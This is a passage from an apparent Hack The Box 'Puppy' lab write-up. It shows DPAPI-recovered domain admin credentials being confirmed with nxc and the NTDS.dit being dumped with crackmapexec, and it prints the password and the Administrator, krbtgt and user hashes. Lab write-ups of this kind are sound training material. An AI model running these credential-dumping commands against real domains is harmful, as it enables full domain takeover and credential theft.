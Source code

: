 ### 🛡️ Domain Replication Attack with DRSUAPI


<p class="indent-paragraph">
It is worth noting that such credentials can be silently stored by the system when a privileged account is used via the Windows UAC prompt or through<code>runas /savecred</code><span class="codefix">.</span> In these scenarios, domain administrator credentials may be cached and protected with DPAPI under the standard user’s context. In this case, after extracting and decrypting the DPAPI blobs, we retrieved the plaintext credentials for<code>steph.cooper_adm</code><span class="codefix">.</span> To confirm the privilege level, we authenticated against the domain controller using<code>nxc</code><span class="codefix">,</span> and the<code>(Pwn3d!)</code> indicator verified that the account holds Domain Admin privileges—validating a complete domain compromise.
</p>

```
~$ nxc smb dc.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'  

SMB         dc.puppy.htb     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb     445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
```

<p class="indent-paragraph">
With valid domain administrator credentials in hand, the next logical step was to extract the NTDS.dit secrets from the domain controller. This was performed using<code>crackmapexec</code> with the<code>--ntds</code> flag, which allowed for a full dump of user password hashes from Active Directory. It is important to highlight that although tools like<code>netexec</code> (nxc) support similar functionality, attempting an NTDS dump using<code>nxc --ntds</code> on recent Windows Server builds (such as 2019 or 2022) may crash the domain controller. As such,<code>crackmapexec</code> remains the safer and more stable option for this task.
</p>
<p class="indent-paragraph">
The output confirmed full domain compromise, revealing the password hashes for critical accounts, including<code>Administrator</code><span class="codefix">,</span><code>krbtgt</code><span class="codefix">,</span> and all domain users. These hashes are valuable for offline cracking, impersonation, or further lateral movement across trust boundaries. At this point, full control over the domain had been achieved.
</p>

```
~$ crackmapexec smb dc.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!' --ntds

SMB         dc.puppy.htb    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb    445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
SMB         dc.puppy.htb    445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc.puppy.htb    445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
SMB         dc.puppy.htb    445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc.puppy.htb    445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
```